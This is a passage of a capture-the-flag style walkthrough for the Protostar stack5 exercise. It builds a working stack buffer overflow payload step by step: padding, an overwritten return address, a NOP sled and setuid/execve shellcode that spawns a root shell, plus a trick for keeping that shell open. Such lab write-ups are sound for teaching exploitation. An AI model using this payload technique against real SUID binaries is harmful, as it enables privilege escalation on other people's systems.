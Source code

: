 As you can see, `0x90909090` are the NOP instructions we provided, all we need to do is to grab an address that points to one of the NOP, let's take `0xbffff780`.

Now our payload is going to be something like this :

```bash
user@protostar:/opt/protostar/bin$ payload=$(perl -e 'print "A" x 76 . "\x80\xf7\xff\xbf" . "\x90" x 100')
```

But we need some sort of code to execute after the NOP operations, let's test `\xcc` which is basically the opcode for breakpoint.

```bash
user@protostar:/opt/protostar/bin$ payload=$(perl -e 'print "A" x 76 . "\x80\xf7\xff\xbf" . "\x90" x 100 . "\xccc" x 4')
```

```bash
user@protostar:/opt/protostar/bin$ cat /tmp/yariss/payload | ./stack5
Trace/breakpoint trap
```

Its working !

All left here is to actually provide a malicious code.

Since this is a linux x86 executable, and has a SUID set, we need a shellcode that sets our real uid to the effective uid which is the root uid.

Here is the famous [https://shell-storm.org/shellcode/index.html](https://shell-storm.org/shellcode/index.html) where you can find shellcodes :)

And this is the shellcode i chose [https://shell-storm.org/shellcode/files/shellcode-399.html](https://shell-storm.org/shellcode/files/shellcode-399.html) which matches what we need.

`"\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"`

Let's now add this shellcode to our payload.

```bash
user@protostar:/opt/protostar/bin$ payload=$(perl -e 'print "A" x 76 . "\x80\xf7\xff\xbf" . "\x90" x 100 . "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"')
user@protostar:/opt/protostar/bin$ echo $payload > /tmp/yariss/payload 
```

Now let's execute !!

```bash
user@protostar:/opt/protostar/bin$ cat /tmp/yariss/payload | ./stack5
user@protostar:/opt/protostar/bin$ 
```

What ?? Nothing happens ??

Well actually the shell gets closed and we need to keep it open, here is a trick to do that :

```bash
user@protostar:/opt/protostar/bin$ (cat /tmp/yariss/payload ; cat ) | ./stack5
```
